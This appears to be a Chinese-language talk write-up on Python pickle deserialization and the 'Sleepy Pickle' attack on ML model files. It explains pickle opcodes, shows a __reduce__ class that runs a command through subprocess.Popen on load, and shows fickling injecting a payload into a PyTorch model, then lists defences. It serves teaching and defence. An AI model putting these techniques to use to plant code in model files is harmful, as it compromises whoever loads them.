









# 💤🥒Sleeply Pickle

Demo code : [https://github.com/YunshiuanOAO/SleepyPickle-Demo](https://github.com/YunshiuanOAO/SleepyPickle-Demo)


Slido : [https://speakerdeck.com/yunshiuanoao/sleeplypickle](https://speakerdeck.com/yunshiuanoao/sleeplypickle )


## ♻️序列化(Serialization)/反序列化(Deserialization)

序列化是將一個資料結構或物件轉換成一種可以儲存或交換的格式（如位元組流、JSON、XML 等）。這樣的轉換讓物件能夠寫入檔案、透過網路傳輸，或儲存在資料庫中。

反序列化則是將儲存的數據或接收到的數據轉換回原始的物件或資料結構。




---


## 🥒 What is Pickle?

Pickle 是 Python 的內建模組，提供了將 Python 物件序列化和反序列化的功能。

常見用途

:    將物件儲存到檔案中，方便之後載入。
:    將物件透過網路或其他通道進行傳輸。
:    **快速儲存和載入機器學習模型、配置檔或計算結果**。

支援的物件類型

:    Pickle 支援多種 Python 內建的資料型態，包括：
:    ✔️ 數字（int, float）
:    ✔️ 字串（str）
:    ✔️ 列表（list）、元組（tuple）、字典（dict）、集合（set）
:    ✔️ 自訂類別物件
:    ✔️ 函數


Example : 

```python
import pickle
import pickletools


data = {"name": "Alice", "age": 30, "scores": [88, 92, 95]}

with open("data.pkl", "wb") as file:
    pickle.dump(data, file, protocol=0)
    print("Data has been successfully serialized to data.pkl")

with open("data.pkl", "rb") as file:
    unpickled_data = pickle.load(file)
    print(unpickled_data)


```

Output: 

```
Data has been successfully serialized to data.pkl
{'name': 'Alice', 'age': 30, 'scores': [88, 92, 95]}
```

可以使用pickletools將pickle執行的內容dump出來

```
    0: (    MARK
    1: d        DICT       (MARK at 0)
    2: p    PUT        0
    5: V    UNICODE    'name'
   11: p    PUT        1
   14: V    UNICODE    'Alice'
   21: p    PUT        2
   24: s    SETITEM
   25: V    UNICODE    'age'
   30: p    PUT        3
   33: I    INT        30
   37: s    SETITEM
   38: V    UNICODE    'scores'
   46: p    PUT        4
   49: (    MARK
   50: l        LIST       (MARK at 49)
   51: p    PUT        5
   54: I    INT        88
   58: a    APPEND
   59: I    INT        92
   63: a    APPEND
   64: I    INT        95
   68: a    APPEND
   69: s    SETITEM
   70: .    STOP
highest protocol among opcodes = 0
```

由上面的資訊可以得知，其實Pickle在反序列化的過成就很像一個簡易的堆疊虛擬機在執行，透過Opcode並且在Pickle Virtual Machine執行
主要由這三個

* 指令處理器 (Instruction Processor)

    從指令流 (byte stream) 中讀取 opcode 與參數，並依序進行解譯與處理。

    不斷重複「讀取 -> 處理」的流程，直到遇到結束符號（通常是 .）後停止。

    反序列化結束時，最終留在 stack 頂端的值將作為反序列化結果返回。

* Stack (堆疊)

    由 Python 的 list 實作。

    用於暫時儲存資料、參數以及各種物件。

    各種 opcode 會操作此堆疊（如推入、彈出、組合容器等）。

* Memo (備忘錄)

    由 Python 的 dict 實作。

    在 PVM 整個生命週期中，負責儲存先前出現過的物件，以便重複引用或避免重複建立。

    透過索引或序號 (index) 來存取對應物件。


以下為常用的opcode 

| **指令** | **描述**                                                                                                             | **具體寫法**                              | **對 stack 的變化**                                                                                          |
|:-------:|:--------------------------------------------------------------------------------------------------------------------|:-----------------------------------------|:-----------------------------------------------------------------------------------------------------------|
| **c**   | 取得一個全局物件或 import 一個模組                                                                                      | `c[module]\n[instance]\n`               | 取得的物件入 stack                                                                                           |
| **o**   | 尋找 stack 中的上一個 MARK，以之間的第一個資料（必須為函數）為 callable，第二個到第 n 個資料為參數，執行該函數（或實例化一個物件） | `o`                                     | 這個過程中涉及到的資料都出 stack，函數的返回值（或生成的物件）入 stack                                        |
| **i**   | 相當於 c 和 o 的組合，先取得一個全局函數，然後尋找 stack 中的上一個 MARK，並組合之間的資料為元組，再以該元組為參數執行全局函數（或實例化一個物件） | `i[module]\n[callable]\n`               | 這個過程中涉及到的資料都出 stack，函數返回值（或生成的物件）入 stack                                          |
| **N**   | 實例化一個 None                                                                                                     | `N`                                     | 取得的 None 對象入 stack                                                                                     |
| **S**   | 實例化一個字串對象                                                                                                  | `S'xxx'\n`<br>也可使用雙引號或 `\'` 等 Python 字串形式 | 取得的字串對象入 stack                                                                                       |
| **V**   | 實例化一個 Unicode 字串對象                                                                                         | `Vxxx\n`                                | 取得的字串對象入 stack                                                                                       |
| **I**   | 實例化一個 int 對象                                                                                                 | `Ixxx\n`                                | 取得的整數對象入 stack                                                                                       |
| **F**   | 實例化一個 float 對象                                                                                               | `Fx.x\n`                                | 取得的浮點數對象入 stack                                                                                      |
| **R**   | 選擇 stack 上的第一個對象作為函數、第二個對象作為參數（第二個對象必須為元組），然後呼叫該函數                           | `R`                                     | 函數和參數出 stack，函數的返回值入 stack                                                                       |
| **.**   | 程式結束，stack 頂的單一元素作為 `pickle.loads()` 的返回值                                                             | `.`                                     | 無                                                                                                            |
| **(**   | 向 stack 中壓入一個 MARK 標記                                                                                       | `(`                                     | MARK 標記入 stack                                                                                             |
| **t**   | 尋找 stack 中的上一個 MARK，並組合之間的資料為元組                                                                   | `t`                                     | MARK 標記以及被組合的資料出 stack，生成的元組入 stack                                                          |
| **)**   | 向 stack 中直接壓入一個空元組                                                                                       | `)`                                     | 空元組入 stack                                                                                                |
| **l**   | 尋找 stack 中的上一個 MARK，並組合之間的資料為列表                                                                   | `l`                                     | MARK 標記以及被組合的資料出 stack，生成的列表入 stack                                                          |
| **]**   | 向 stack 中直接壓入一個空列表                                                                                       | `]`                                     | 空列表入 stack                                                                                                |
| **d**   | 尋找 stack 中的上一個 MARK，並組合之間的資料為字典（資料必須有偶數個，即呈 key-value 對）                           | `d`                                     | MARK 標記以及被組合的資料出 stack，生成的字典入 stack                                                          |
| **}**   | 向 stack 中直接壓入一個空字典                                                                                       | `}`                                     | 空字典入 stack                                                                                                |
| **p**   | 將 stack 頂對象儲存至 memo_n                                                                                         | `pn\n`                                  | 無                                                                                                             |
| **g**   | 將 memo_n 的對象壓入 stack                                                                                          | `gn\n`                                  | 將指定索引的 memo 對象入 stack                                                                                 |
| **0**   | 丟棄 stack 頂對象                                                                                                  | `0`                                     | stack 頂對象被丟棄                                                                                            |
| **b**   | 使用 stack 中的第一個元素（儲存多個屬性名: 屬性值的字典）對第二個元素（對象實例）進行屬性設置                           | `b`                                     | stack 上第一個元素出 stack；第二個元素（對象）被更新                                                            |
| **s**   | 將 stack 的第一個和第二個對象作為 key-value 對，添加或更新到 stack 的第三個對象（必須為列表或字典，列表以數字作為 key） | `s`                                     | 第一、二個元素出 stack，第三個元素（列表或字典）被更新                                                          |
| **u**   | 尋找 stack 中的上一個 MARK，組合之間的資料（必須有偶數個，即 key-value 對）並全部添加或更新到該 MARK 之前的一個對象（必須為字典） | `u`                                     | MARK 標記以及被組合的資料出 stack，字典被更新                                                                   |
| **a**   | 將 stack 的第一個元素 append 到第二個元素（列表）中                                                                  | `a`                                     | stack 頂元素出 stack，第二個元素（列表）被更新                                                                  |
| **e**   | 尋找 stack 中的上一個 MARK，組合之間的資料並 extends 到該 MARK 之前的一個元素（必須為列表）                          | `e`                                     | MARK 標記以及被組合的資料出 stack，列表被更新                                                                   |

---


## ⚠️What's Wrong with Pickle ?


Pickle文檔上有出現這一個警告


Pickle當中有一個 `__reduce__` 可以使用，當反序列化時會自動呼叫

以下範例為製作一個惡意的pickle


```python

import pickle
import subprocess

class EvilPickle:
    def __reduce__(self):
        return (subprocess.Popen, (('ls',),))
e =  EvilPickle()
with open('evil.pkl', 'wb') as f:
    pickle.dump(e, f)

```

用pickletool 把惡意pickle檔dump出來看看


```
    0: c    GLOBAL     'commands Popen'
   16: p    PUT        0
   19: (    MARK
   20: (        MARK
   21: V            UNICODE    'ls'
   25: p            PUT        1
   28: t            TUPLE      (MARK at 20)
   29: p        PUT        2
   32: t        TUPLE      (MARK at 19)
   33: p    PUT        3
   36: R    REDUCE
   37: p    PUT        4
   40: .    STOP
highest protocol among opcodes = 0
```

執行結果：


即可執行`ls`指令

---

## 💤Sleepy Pickle 


利用pickle不安全的特性，將惡意的Bytecode植入使用pickle的模型檔案內。


有一個針對此攻擊而產生的工具：[fickling](https://github.com/trailofbits/fickling)

此工具可以輕易的將想要執行的程式轉成bytecode值入進pickle中，另外也有檢測pickele內的惡意行為功能

demo:

```python 
import torch
import torchvision.models as models
import warnings
from fickling.pytorch import PyTorchModelWrapper
warnings.filterwarnings("ignore")

model = models.mobilenet_v2()
torch.save(model, "mobilenet.pth")

result = PyTorchModelWrapper("mobilenet.pth")

temp_filename = "temp_filename.pt"
result.inject_payload(
    "print('Inject successful!')",
    temp_filename,
    injection="insertion",
    overwrite=True,
)

# Load file with injected payload
torch.load("mobilenet.pth")
```

輸出：




在 Hugging face 上在目前常出現的是`pytorch_model.bin`


pytorch_model.bin是使用PyTorch中的torch.save 函數所生成的二進位檔案，裡面會存 weights, biases, 或者其他parameters，如果將它unzip會有一個data.pkl可以利用(會依照Pytorch不同的版本裡面會包含不同的檔案)

!!! info

    * PyTorch v0.1.1: Tar file with sys_info, pickle, storages, and tensors
    * PyTorch v0.1.10: Stacked pickle files
    * TorchScript v1.0: ZIP file with model.json
    * TorchScript v1.1: ZIP file with model.json and attributes.pkl
    * TorchScript v1.3: ZIP file with data.pkl and constants.pkl
    * TorchScript v1.4: ZIP file with data.pkl, constants.pkl, and version set at 2 or higher (2 pickle files and a folder)
    * PyTorch v1.3: ZIP file containing data.pkl (1 pickle file)
    * PyTorch model archive format[ZIP]: ZIP file that includes Python code files and pickle files




!!! warning "PyTorch適用版本"
    PyTorch <2.6 在最新 2.6版本中，Pytorch 將 torch.load 的參數weights_only預設為True

    > Also in this release as an important security improvement measure we have changed the default value for weights_only parameter of torch.load. This is a backward compatibility-breaking change, please see this forum post for more details.


接下來Hacker 會先透過中間人攻擊、供應鏈攻擊、社交工程等手法，將惡意Pickle檔案傳送至受害者的系統，一旦反序列化後有可能會進行以下的惡意攻擊

* 修改模型參數


可以去微調模型的參數讓他輸出出誤導性或有惡意的輸出

如：[ROME](https://rome.baulab.info/)




* 釣魚

可以在每次問答時插入惡意的連結


* 埋後門
* XSS
* 竊取使用者資料
* 竄改資料
* ...

---

## 🦾How To Prevent

* 不要使用Pickle，使用 SafeTensors.
* 如果一定要使用Pickle，需要使用fickling對pickle進行掃描或者限制unpickler


---
## 📚Reference

* [Exploiting ML models with pickle file attacks: Part 1](https://blog.trailofbits.com/2024/06/11/exploiting-ml-models-with-pickle-file-attacks-part-1/)

* [Exploiting ML models with pickle file attacks: Part 2](https://blog.trailofbits.com/2024/06/11/exploiting-ml-models-with-pickle-file-attacks-part-2/)
* [Never a dill moment: Exploiting machine learning pickle files](https://blog.trailofbits.com/2021/03/15/never-a-dill-moment-exploiting-machine-learning-pickle-files/)

* [Pain Pickle: 繞過 Python 中受限制的 Unpickler 之自動化脅迫生成](https://thesisapi.lib.nycu.edu.tw/server/api/core/bitstreams/affc3d4c-9f19-429a-b392-ce8420d7351b/content)

* [研究人員揭露針對機器學習模型而來的攻擊手法Sleepy Pickle](https://www.ithome.com.tw/news/163545)

* [Pickle反序列化](https://goodapple.top/archives/1069)
